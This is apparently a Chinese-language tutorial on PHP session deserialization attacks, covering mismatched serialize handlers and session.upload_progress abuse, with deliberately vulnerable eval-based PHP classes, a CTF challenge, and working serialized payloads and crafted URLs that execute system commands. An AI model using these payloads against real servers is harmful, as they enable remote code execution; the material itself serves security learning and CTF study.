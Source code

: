 # 一、PHP Session机制

当通过`session_start()`开启会话后，PHP根据客户端的PHPSESSID获取当前会话数据

（即session文件，文件名为sess_PHPSESSID值，位于temp文件夹下）

![image-20221018195513630](../images/image-20221018195513630.png)

随便打开一个看看，会发现里面其实是序列化的值
PHP会自动解析session文件的内容，并填充到`$_SESSION`超级全局变量中。

若客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

PHP解析session文件的过程，实际上就是反序列化的过程

对此，PHP有三种**session处理引擎**：php、php_serialize、php_binary

```php
<?php
//ini_set("session.serialize_handler", "php");
//ini_set("session.serialize_handler", "php_serialize");
//ini_set("session.serialize_handler", "php_binary");
session_start();
$_SESSION['doge'] = "Taco";
var_dump($_SESSION);
```



> php:  doge|s:4:"Taco";       // 键名|after serialize
>
> php_serialize:  a:1:{s:4:"doge";s:4:"Taco";}       // array after serialize
>
> php_binary:  <0x04>doges:4:"Taco";   // 键名长度对应的ASCII字符+键名s+after serialize



`php_ini`中可以设置`session.serialize_handler`

PHPINFO可以查看

![image-20221018202001193](../images/image-20221018202001193.png)



# 二、session引擎利用

```php
<?php
// test.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
$a = $_SESSION['hack'];
var_dump($a);
unserialize($a);
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

构造payload

```php
<?php
class BackDoor {
    public $cmd="system('calc');";
}
echo serialize(new BackDoor());
// O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}
```

接着访问`/fun.php?hack=O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}`
序列化字符串被记录到session文件中。

![image-20221018203905762](../images/image-20221018203905762.png)

接着访问test.php，`$_SESSION['hack']`被取出进行反序列化，执行`__wakeup`、getshell

上面的案例中，比较鸡肋的地方就是需要有明确的`unserialize($a)`
为什么呢？session引擎自动反序列化的确是有的，但我们传入的序列化字符串是作为`string`反序列化的，而不是本身序列化字符串的反序列化（说得可能有点绕）

看看下面的例子，当两个php文件使用不同的session引擎，会碰撞出什么火花

```php
<?php
// test.php
ini_set("session.serialize_handler", "php");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

上面提到了session引擎中，`php引擎`以`|`作为键名和序列化字符串的分界

而`php_serialize引擎`处理后的就是序列化的`$_SESSION`数组

构造恶意序列化字符串

```php
<?php
class BackDoor {
    public $cmd="phpinfo();";
}
echo serialize(new BackDoor());
// |O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}
// 前面加了个竖线|
```

访问`/fun.php?hack=|O:8:%22BackDoor%22:1:{s:3:%22cmd%22;s:10:%22phpinfo();%22;}`

得到的session文件内容如下：
`a:1:{s:4:"hack";s:48:"|O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}";}`

接着访问`test.php`，成功执行`phpinfo`
由于其使用`php引擎`，`竖线|`左边变成键名，右边变成序列化字符串，引擎会自动将其反序列化。

# 三、upload_process机制

上面两个案例中，服务端Session中存储了我们传入的值`$_SESSION['hack']=$_GET['hack'];`

若程序中没有出现上面类似的代码，是不是没办法反序列化了？

其实php存在一个`upload_process`机制，会自动在$_SESSION中创建一个键值对

![image-20221018212719363](../images/image-20221018212719363.png)

感觉就是通过这个机制来做出前端那种**上传进度条**的效果

需要在php.ini配置

> session.upload_progress.enabled=On
>
> session.upload_progress.cleanup=Off  // 防止把生成的$_SESSION中的键值对给清理掉

我们需要先上传文件，同时POST一个与`session.upload_process.name`的同名变量

直接看一道经典的CTF题

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('__FILE__'));
}
```

访问`http://127.0.0.1/test/test.php?phpinfo`

![image-20221018222742543](../images/image-20221018222742543.png)

构造payload

```php
<?php
class OowoO
{
    public $mdzz="system('whoami');";
}
$a = new OowoO();
echo serialize($a);
// O:5:"OowoO":1:{s:4:"mdzz";s:17:"system('whoami');";}
```

编写上传文件的表单

```html
<form action="http://127.0.0.1/test/test.php" method="post" enctype="multipart/form-data">
    <input type="file" name="myFile" />
    <input type="submit" value="提交" />
</form>
```

![image-20221018224053103](../images/image-20221018224053103.png)

此时再看看session文件

`a:1:{s:22:"upload_progress_aaaaaa";a:5:{s:10:"start_time";i:1666103954;s:14:"content_length";i:431;s:15:"bytes_processed";i:431;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:6:"myFile";s:4:"name";s:53:"|O:5:"OowoO":1:{s:4:"mdzz";s:17:"system("whoami");";}`

由于使用的是`php-session引擎`，将`竖线|`右边的值自动反序列化
